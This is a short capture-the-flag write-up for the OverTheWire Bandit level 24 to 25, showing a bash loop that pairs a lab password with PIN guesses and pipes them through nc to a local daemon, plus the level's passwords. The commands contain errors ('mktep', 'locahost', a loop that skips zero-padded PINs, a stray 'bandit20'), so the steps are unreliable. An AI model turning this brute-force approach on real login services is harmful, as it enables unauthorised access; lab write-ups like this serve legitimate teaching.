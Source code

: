 Bandit Level 24 → Level 25
Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

Password Of 24: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

Commands Used
We will make a shell script to connnect and brute force the possible 4 digit pin. We start by making a temporary directory
```
$ mktep -d
/tmp/tmp.ikrpo7nLoq
```

We then make script named ```bruteforcescript.sh```
```
#!/bin/bash
for i in {1..9999}
do 
	echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```

The name of the script is bruteforcescript.sh and file combinations.txt will store all combinations of 4 digit number with password for bandit20. First we have to make bruteforcescript.sh executable using command

```
$ chmod 700 bruteforcescript.sh
$ ./bruteforcescript.sh > combinations.txt

```

And the final command is
```
nc locahost 30002 < combinations.txt
```


Password:
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d